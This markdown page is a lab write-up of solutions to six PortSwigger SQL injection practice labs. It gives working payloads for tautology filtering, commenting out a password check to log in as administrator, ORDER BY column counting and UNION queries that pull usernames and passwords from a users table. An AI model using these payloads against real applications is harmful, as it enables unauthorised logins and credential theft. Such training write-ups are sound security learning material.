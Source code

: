 ```yaml
---
title: BurpSuite Labs - SQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tags: 
  - burpsuite
  - sqli
---
```


# BurpSuite Labs - SQL injection

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Enuntiation

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Solution

Filter by one of the categories and, in the URL, instead of that categorry, after the "=" add:

```
' OR '1'='1
```



## SQL injection vulnerability allowing login bypass

### Enuntiation

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

### Solution

In the login page, add to username:

```
administrator'--
```

In password it doesn't matter what you write.


## SQL injection UNION attack, determining the number of columns returned by the query

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

### Solution

In the category filter, filter by 'Gift'. Then in the URL, substitute Gift by: 

```
' OR '1'='1' order by 1-- -
' OR '1'='1' order by 2-- -
' OR '1'='1' order by 3-- -
' OR '1'='1' order by 4-- -
```

When substituting by the last string, you will have an error. Bingo! Our last successful try was with 3 columns, so the table is holding 3 columns. Now we can launch our UNION attack:

```
' OR '1'='1' UNION SELECT all  null,null,null-- -
```

![Scrrenshot](../img/bupsuite-sqli3.png)


## SQL injection UNION attack, finding a column containing text

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

### Solution

Select category filter GIFT in the Home lab.

Substitute in the URL Gift by the following string to guess which column is being displayed: 

```
' UNION SELECT null,null,null-- -
```

The Lab environment is providing at the top of the screen a string of characters that you will need to get reflected in order to pass the lab. In my case it was the string 'FEvLOw'. I tried that string in different positions and I got success in the second position: 

```
'+UNION+SELECT+'FEvLOw',NULL,NULL--
'+UNION+SELECT+NULL,'FEvLOw',NULL--
```

![Scrrenshot](../img/bupsuite-sqli4.png)


## SQL injection UNION attack, retrieving data from other tables

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Solution

First, we test the number of columns and we obtain 2.

Later we run

```
' UNION SELECT ALL username,password FROM users-- -
```

![screenshot](../img/bupsuite-sqli5.png)


## SQL injection UNION attack, retrieving multiple values in a single column

### Enuntiation

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

### Solution

Like in the previous lab, first we test how many columns there are:

```
' UNION SELECT ALL NULL,NULL-- -
```

After that we check that (in my case) the column that is reflected is the second one, and we use that to retrieve the users and passwords:

```
# ' UNION SELECT NULL,username FROM users-- -
```

And we get:

```
carlos

administrator

wiener
```

And then, passwords:

```
# ' UNION SELECT NULL,password FROM users-- -
```

And we get:

![screenshot](../img/bupsuite-sqli6.png)

